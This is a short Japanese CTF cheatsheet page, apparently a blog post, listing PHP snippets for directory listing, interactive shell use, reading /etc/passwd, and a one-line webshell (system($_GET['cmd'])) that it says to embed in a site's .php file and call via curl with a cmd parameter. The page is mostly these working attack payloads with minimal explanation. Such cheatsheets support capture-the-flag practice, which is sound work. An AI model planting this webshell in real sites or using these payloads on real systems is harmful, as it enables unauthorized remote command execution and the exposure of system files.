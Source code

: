 ```yaml
---
layout: post
published : true
title: "PHP"
permalink: /ctf/cheatsheets/common/php
tags: CTF Common cheatsheet PHP
---
```

## 基本
phpを対話シェルで起動
```sh
$ php -a
```

## よく使うコード
### ディレクトリをリスト
```php
<?php print_r(scandir("/")); ?>
```
### ファイルを表示
```php
<?php print_r(readfile("/etc/passwd")); ?>
```
### Webshell
以下をウェブサイト内の.phpに埋め込む。
```php
<?php system($_GET['cmd']) ?>
```
以下のようにして使う。
```sh
$ curl -s http://example.com/webshell.php?cmd=id
```